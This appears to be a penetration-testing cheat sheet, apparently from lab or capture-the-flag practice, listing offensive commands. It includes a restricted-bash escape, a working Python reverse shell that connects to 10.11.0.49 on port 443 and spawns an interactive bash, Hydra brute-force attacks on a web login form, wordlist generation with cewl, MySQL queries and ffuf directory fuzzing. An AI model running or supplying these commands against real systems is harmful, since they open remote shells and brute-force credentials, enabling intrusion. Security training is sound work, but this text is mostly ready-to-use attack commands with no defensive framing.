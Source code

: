 Scape restricted shell: `-rbash: /usr/bin/python: restricted: cannot specify '/' in command names`

```text
BASH_CMDS[a]=/bin/sh;a
export PATH=$PATH:/bin/
export PATH=$PATH:/usr/bin
```

Python reverse shell

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.49",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

### Mysql

Non interactive queries

```text
mysql -u <user> -p<passwd> -D otrs -e "show databases;"
```

### Robots.txt

Crawl robots txt as a search engine agent

```text
curl --user-agent Googlebot http://10.11.12.13/robots.txt -v
```

### Hydra

Generate passwds from web words

```text
cewl http://10.11.12.13 -m 2 -w output
```

Brute force logging

```text
hydra -L usernames.txt -P passwords.txt <IP>  <MODE> "<PATH>:Action=<HTTP_QUERY>&User=^USER^&Password=^PASS^:<ERROR message when fail"
# Example
hydra -L usernames -P output 10.11.12.13  http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=300&User=^USER^&Password=^PASS^:F=Login"
```

## Fuzzing

### ffuz

Silent fuzzing

```text
ffuf -s -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.168:8080/FUZZ
```
